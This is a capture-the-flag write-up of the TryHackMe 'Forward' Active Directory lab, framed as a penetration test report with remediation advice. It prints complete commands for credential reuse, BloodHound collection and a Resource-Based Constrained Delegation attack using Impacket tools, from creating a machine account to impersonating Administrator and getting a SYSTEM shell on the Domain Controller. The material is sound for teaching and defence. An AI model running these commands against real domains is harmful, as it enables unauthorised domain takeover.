# Forward Write-up

**Platform**: TryHackMe <br>
**Room**: Forward (https://tryhackme.com/room/forwardchallenge) <br>
**Category**: Active Directory <br>
**Target**: Windows Domain Controller <br>
**Techniques**: Active Directory Enumeration, Credential Reuse, Resource-Based Constrained Delegation (RBCD), Kerberos Delegation, S4U2Self, S4U2Proxy <br>
**Final Goal**: Domain Administrator Access

## Executive Summary

This assessment evaluated the security of the **Forward** Active Directory environment, where initial access was provided through a compromised domain account. The objective was to determine whether the existing access could be leveraged to move laterally through the domain and ultimately obtain administrative control of the Domain Controller.

The assessment identified several vulnerabilities, including insecure password manager configuration, password reuse, and excessive Active Directory delegation permissions. These vulnerabilities could be combined to obtain additional user credentials, identify an account with delegated control over the Domain Controller, and abuse Resource-Based Constrained Delegation to impersonate the Administrator account.

The assessment highlights the importance of protecting stored credentials, preventing password reuse, and regularly reviewing Active Directory permissions. In particular, delegation rights over critical systems should be restricted to only those accounts that require them.

## Overview

Forward simulates a compromised Active Directory environment in which an attacker already possesses valid credentials for a domain user. Rather than focusing on initial access, the objective is to determine how far the existing access can be leveraged through credential discovery, lateral movement, and abuse of Active Directory permissions.

The room demonstrates an attack chain involving:

- Active Directory service enumeration
- RDP access using provided domain credentials
- Discovery of a KeePass password database
- Abuse of Windows User Account authentication to access the KeePass database
- Credential discovery and password reuse
- Active Directory enumeration with BloodHound
- Resource-Based Constrained Delegation (RBCD)
- Kerberos S4U2Self and S4U2Proxy
- Administrator impersonation
- Remote execution on the Domain Controller

### Attack Chain



---

## Initial Enumeration

The assessment begins by identifying the services exposed by the target host.

```bash
nmap -sV -sC -p- 10.112.177.180
```

Where:

- `-sV` performs service version detection.
- `-sC` executes Nmap's default NSE scripts.
- `-p-` scans all TCP ports rather than the default top 1,000.

The scan identifies the target as a Windows-based Domain Controller named `DC01.ctf.local` belonging to the `ctf.local` Active Directory domain.



Several services associated with Active Directory are exposed, including DNS, Kerberos, LDAP, SMB and Active Directory Web Services. Remote Desktop Protocol (RDP) is also available on port `3389`, providing a potential method of accessing the system using valid domain credentials.

The relevant services identified during the scan include:

| Port | Service | Observation |
|------|---------|-------------|
| 53 | DNS | Provides name resolution for the Active Directory environment. |
| 88 | Kerberos | Authentication service used by the Active Directory domain. |
| 135 | MSRPC | Windows RPC endpoint mapper. |
| 139 | NetBIOS-SSN | Provides legacy SMB connectivity. |
| 389 | LDAP | Directory service used by Active Directory. |
| 445 | SMB | Windows file and resource sharing service. |
| 464 | kpasswd | Kerberos password change service. |
| 636 | LDAPS | LDAP over TLS. |
| 3389 | RDP | Remote Desktop access to the Windows host. |

Before connecting to the host using its domain name, the Domain Controller is added to the local `/etc/hosts` file:

```text
10.112.177.180 DC01.ctf.local ctf.local DC01
```



The provided domain credentials can then be used to establish an RDP session:

```bash
xfreerdp /u:'ctf.local\j.smith' /p:'JSmith@IT2024' /v:10.112.177.180 /dynamic-resolution
```

When prompted, the certificate is trusted to establish the connection.



The session provides access to the Windows environment as the domain user `j.smith`.

## Local User Enumeration

Once access to the Domain Controller has been established, the local user directories are inspected to identify other accounts present on the system.

Navigating to:

```text
C:\Users
```

reveals several user accounts:

- `Administrator`
- `j.smith`
- `r.williams`
- `svc.scanner`

These accounts are recorded for later enumeration and potential lateral movement.



Further inspection of the `j.smith` profile reveals a KeePass database `Database.kdbx` in the user's `Documents` directory.



A KeePass database is a password manager database designed to securely store credentials and other sensitive information. Access normally requires authentication using a master password or another configured authentication mechanism.

In this case, the machine has KeePass 2 installed, allowing the database to be opened directly using the installed application.

When the database is opened, KeePass requests a master password. However, selecting **OK** without entering a password successfully opens the database.

This indicates that the user configured KeePass to use **Windows User Account authentication**, allowing access to the database based on the current Windows user's identity rather than requiring a separate master password.

This configuration effectively ties access to the KeePass database to the Windows account and its associated Windows security mechanisms. Since the session is already authenticated as `j.smith`, the database can be accessed without recovering a separate KeePass password.

The database contains an entry named **Help Desk Portal**, which exposes credentials for the user `t.jones`.



The newly discovered credentials provide another potential identity for further enumeration within the domain.

## Active Directory Enumeration with BloodHound

With valid credentials for `t.jones` available, the next step is to enumerate the Active Directory environment and identify relationships or permissions that may allow further privilege escalation.

**BloodHound** is used to map Active Directory users, groups, computers and permissions. By visualising these relationships, BloodHound can identify privilege escalation paths that may not be immediately apparent from individual account enumeration.

The domain information is collected using:

```bash
bloodhound-python -u 'j.smith' -p 'JSmith@IT2024' -d ctf.local -dc DC01.ctf.local -ns 10.112.177.180 -c All --zip
```



The resulting ZIP file is imported into BloodHound by starting the application and dragging the generated archive into the interface.

The permissions and group memberships of `t.jones` are then examined. Although the account belongs to several groups, none provide direct domain administrative privileges, and no special permissions that would immediately allow privilege escalation are identified.



The same assessment is performed for the initially provided `j.smith` account. No direct privilege escalation path is identified for this account either.



Since the domain contains several user accounts and credentials for `t.jones` have been recovered, password reuse is considered as a potential avenue for lateral movement.

## Credential Reuse

Password reuse occurs when the same password is used across multiple accounts or services. If one account's credentials are compromised, reused credentials can therefore provide access to additional accounts without requiring a separate vulnerability.

The previously discovered password for `t.jones` is tested against the `r.williams` account.

From a Windows command prompt, the following command is used:

```cmd
runas /user:ctf.local\r.williams cmd.exe
```

The password recovered from the KeePass database is supplied when prompted.



Authentication succeeds, confirming that the password is reused by `r.williams`. A new command prompt is opened under the `r.williams` account.



The newly obtained account is then examined in BloodHound to determine whether it possesses any permissions that could be used to continue the attack.

## Resource-Based Constrained Delegation

BloodHound reveals that `r.williams` has an **AddAllowedToAct** permission over the Domain Controller.



This permission provides an opportunity to abuse **Resource-Based Constrained Delegation (RBCD)**.

RBCD is an Active Directory delegation mechanism that allows a resource, such as a server, to specify which accounts are trusted to act on behalf of other users when accessing that resource. If an attacker can modify the relevant delegation configuration on a privileged computer, they may be able to configure a controlled computer account to impersonate other users when authenticating to that system.

In this case, the relevant configuration is stored in the Domain Controller's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

By modifying this attribute, a controlled computer account can be granted permission to act on behalf of other users when accessing the Domain Controller.

The attack can then use the Kerberos **S4U2Self** and **S4U2Proxy** extensions to obtain a service ticket while impersonating a privileged account.

- **S4U2Self** allows a service account to request a Kerberos service ticket to itself on behalf of another user.
- **S4U2Proxy** allows that service to use the obtained delegation rights to request a service ticket to another service on behalf of the impersonated user.

Together, these mechanisms can be abused in an RBCD attack to obtain access to a privileged service while impersonating a higher-privileged account.

BloodHound provides the commands required to perform the attack using Impacket.



## Creating a Controlled Machine Account

The first step is to create a computer account that can be controlled by the attacker.

Using the credentials of `r.williams`, a new machine account named `ATTACKERSYSTEM$` is created with a chosen password:

```bash
addcomputer.py -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Passw0rd1!' -dc-host DC01 -domain-netbios ctf.local 'ctf.local/r.williams:<Password of r.williams>'
```



The newly created computer account will be used as the delegated principal in the RBCD attack.

## Configuring Resource-Based Constrained Delegation

The next step is to configure the Domain Controller to trust the controlled machine account for delegation.

The `rbcd.py` tool is used to modify the Domain Controller's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute:

```bash
rbcd.py -dc-ip 10.112.177.180 -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC01$' -action 'write' 'ctf.local/r.williams:<Password of r.williams>'
```



This configuration establishes the required RBCD relationship, allowing `ATTACKERSYSTEM$` to request delegated Kerberos tickets for services on the Domain Controller.

## Kerberos Ticket Abuse

With the RBCD relationship configured, the controlled machine account can be used to request a Kerberos service ticket while impersonating the `Administrator` account.

The `getST.py` tool is used to request a ticket for the CIFS service on the Domain Controller:

```bash
getST.py -spn 'cifs/DC01.ctf.local' -impersonate 'Administrator' 'ctf.local/ATTACKERSYSTEM$:Passw0rd1!'
```



The command uses the S4U mechanisms to obtain a service ticket for `cifs/DC01.ctf.local` while impersonating `Administrator`.

The resulting Kerberos credential cache can then be used by other Impacket tools without providing the Administrator's password.

The `KRB5CCNAME` environment variable is configured to point to the newly generated cache:

```bash
export KRB5CCNAME=Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
```



This instructs Kerberos-aware tools to use the cached Administrator ticket for subsequent authentication.

## Domain Administrator Access

With the Administrator Kerberos ticket available, `wmiexec.py` is used to authenticate to the Domain Controller using Kerberos authentication:

```bash
wmiexec.py -k -no-pass ctf.local/Administrator@DC01.ctf.local
```

The `-k` option instructs Impacket to use Kerberos authentication, while `-no-pass` prevents it from requesting a password.



Authentication succeeds and provides a shell on the Domain Controller with `SYSTEM` privileges.

The flag is located on the Administrator's Desktop.

The assessment therefore concludes with full compromise of the Active Directory Domain Controller.

# Conclusion

This assessment demonstrated how weaknesses in credential management, password reuse, and Active Directory delegation could be chained together to achieve full compromise of a Domain Controller.

The attack began with the provided `j.smith` credentials, which allowed access to the Windows environment and discovery of a KeePass database. The database was accessible through Windows User Account authentication and exposed credentials for `t.jones`. Reuse of those credentials against another domain account provided access to `r.williams`, which possessed the `AddAllowedToAct` permission over the Domain Controller.

This permission enabled the configuration of Resource-Based Constrained Delegation using a controlled machine account. By combining RBCD with the Kerberos S4U2Self and S4U2Proxy mechanisms, an Administrator service ticket was obtained and used to access the Domain Controller with `SYSTEM` privileges.

The attack demonstrates how seemingly unrelated weaknesses can form a complete privilege escalation path when combined. Protecting stored credentials, preventing password reuse, and carefully reviewing delegated Active Directory permissions are therefore essential for limiting lateral movement and privilege escalation within a domain.

# Remediation Recommendations

The compromise of the Active Directory environment was achieved by chaining together several weaknesses. Addressing the following issues would significantly reduce the likelihood of similar privilege escalation and lateral movement.

| Finding | Recommendation |
|---------|----------------|
| **Insecure KeePass Configuration** | Avoid relying solely on Windows User Account authentication to protect sensitive password databases where additional authentication controls are appropriate. Protect password manager databases with strong, independently managed authentication mechanisms. |
| **Credential Exposure** | Sensitive credentials stored within password management databases should be protected against unauthorised access. Access to credential stores should be restricted according to the principle of least privilege. |
| **Password Reuse** | Enforce unique passwords for individual user accounts and prevent the reuse of credentials across multiple accounts. Privileged and service accounts should use independently managed credentials. |
| **Excessive Active Directory Delegation** | Regularly review Active Directory delegation permissions and remove unnecessary `AddAllowedToAct` privileges. Accounts should only be permitted to modify delegation settings where there is a documented operational requirement. |
| **Resource-Based Constrained Delegation** | Restrict which accounts can configure the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on privileged systems, particularly Domain Controllers. Monitor changes to delegation-related attributes. |
| **Privileged Account Protection** | Apply additional security controls to highly privileged accounts such as `Administrator`, including strong authentication mechanisms and restrictions on where privileged accounts can authenticate. |
| **Active Directory Monitoring** | Monitor for unexpected computer account creation, changes to delegation attributes, and unusual Kerberos service ticket requests that may indicate abuse of delegation mechanisms. |

Implementing these recommendations would reduce the opportunities for an attacker to move laterally through the domain and abuse delegated permissions to obtain administrative access to critical Active Directory infrastructure.